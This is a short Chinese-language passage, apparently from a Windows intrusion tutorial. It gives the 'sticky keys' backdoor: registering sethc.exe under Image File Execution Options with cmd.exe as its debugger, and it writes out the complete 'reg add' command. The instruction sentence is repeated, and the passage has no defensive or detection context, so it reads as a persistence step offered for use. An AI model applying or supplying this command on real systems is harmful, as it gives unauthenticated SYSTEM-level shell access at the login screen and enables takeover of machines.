 注册表位置：HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\

在此注册表位置添加项 sethc.exe，添加 debugger 键的值为 c:\windows\system32\cmd.exe

![image-20240409160733061](images/11.png)

在此注册表位置添加项 sethc.exe，添加 debugger 键的值为 c:\windows\system32\cmd.exe

```
reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /v "Debugger" /t REG_SZ /d "c:\windows\system32\cmd.exe" /f
```

![image-20240409163456485](images/12.png)
